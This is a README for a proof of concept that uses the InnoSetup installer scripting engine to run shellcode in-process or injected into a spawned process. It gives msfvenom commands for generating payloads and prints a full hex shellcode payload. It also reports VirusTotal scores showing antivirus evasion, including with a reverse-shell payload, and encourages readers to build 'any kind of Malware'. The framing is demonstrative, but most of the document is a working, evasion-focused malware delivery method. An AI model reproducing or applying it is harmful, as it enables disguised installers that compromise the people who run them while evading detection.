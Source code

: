 # InnoSetup Execute Shellcode PoC

![Screenshot 2021-07-21 at 16.05.10.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.05.10.png)

This proof of concept demonstrate how to take advantage of InnoSetup Scripting Engine to host local/remote process shellcode payload then execute.

The idea behind this concept is to demonstrate the dangerosity of (self) installers. Not only they can contain malicious programsn, they can also run native code through their scripting engines and evade AV detections because of their natural aspect.

The most difficult part was to understand how to use pointers/refs. Basically from this example, it is possible to create any kind of Malware from scratch (even more complex ones). Feel free to try, if you have any technical questions, feel free to ask for some help.

## Parameters

Parameters are located at the top of the InnoSetup Script File.

 * `SpawnNewProcess`: (1|0) : If set to `1`, payload will be stored and executed from a new process (default: notepad.exe). If set to `0`, the payload will be stored and executed from current InnoSetup Installer Process.
 * `SpawnProcessName`: (STR) : This parameter is only use if `SpawnNewProcess` parameter is set to `1`. Change this value with the desired process you want to spawn.
 * `verbose`: (1|0) : Define whether or not you want to output debug messages (Ex: from DbgView)
 * `Payload`: (HEX_STR) : Define the payload itself in hex format (aligned 2). Use the `-f hex` if using Msfvenom.

## Example

It is now very easy to create your own Setup with your own payload.

Just be sure to have your shellcode encoded in hex string then replace the `Payload` parameter with your payload.

An example with Msfvenom would be:

`msfvenom -p <payload> -a x86 --platform Windows <parameters> EXITFUNC=thread -f hex`

Example: `msfvenom -p windows/exec -a x86 --platform Windows CMD=calc.exe EXITFUNC=thread -f hex`

![Screenshot 2021-07-21 at 16.04.41.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.04.41.png)

```
#define Payload "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbe01d2a0a68a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"
```

![Screenshot 2021-07-21 at 16.04.04.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.04.04.png)

Adjust other parameters if you want/need then you can build your setup application and enjoy the result.

Notice: If using `SpawnNewProcess`, I would highly recommend using the `ExitProcess` EXITFUNC method instead of `thread` to close the entired spawned process.

## VirusTotal Score (20 JULY 2021)

https://www.virustotal.com/gui/file/697f7d55aa19e9dfaa5b86d8117c4f57adaba1ea252e008d7760e0a192515ac8/detection

3/69 (Mostly generic detection because of file reputation) / Likely FUD

![Screenshot 2021-07-20 at 19.09.53.png](https://www.phrozen.io/media/all/Screenshot_2021-07-20_at_19.09.53.png)

## VirusTotal Score (UPDATE: 21 JULY 2021)

Bellow the result of a setup scan using a reverse shell payload from Msfvenom without any encoding schema:

https://www.virustotal.com/gui/file/2723ba8196721a3fd8b792b195dc20928d53d0e8b21c47da353b894cace847b9/detection

(4/69) - It evade all comonly used AV Software.
